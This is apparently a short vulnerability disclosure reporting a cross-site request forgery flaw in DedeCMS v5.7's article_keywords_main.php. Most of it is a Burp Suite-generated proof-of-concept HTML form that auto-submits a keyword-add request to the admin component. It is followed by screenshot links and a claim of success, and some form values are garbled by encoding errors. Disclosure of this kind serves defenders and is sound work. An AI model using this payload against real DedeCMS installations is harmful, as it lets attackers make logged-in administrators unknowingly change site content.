 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /dede/article_keywords_main.php
![1](https://github.com/777erp/cms/assets/113673221/87d59fb9-5081-4e1d-925c-f6753146c1f7)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/article_keywords_main.php">
      <input type="hidden" name="dopost" value="add" />
      <input type="hidden" name="keyword" value="cs2" />
      <input type="hidden" name="rpurl" value="" />
      <input type="hidden" name="rank" value="30" />
      <input type="hidden" name="Submit" value="�&#191;&#157;�&#173;&#152;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![2](https://github.com/777erp/cms/assets/113673221/534c011a-4b45-4e07-9361-6a70609b97fc)


Successed

![3](https://github.com/777erp/cms/assets/113673221/b7ba927d-dc03-4c2d-9131-bbb0446b498e)
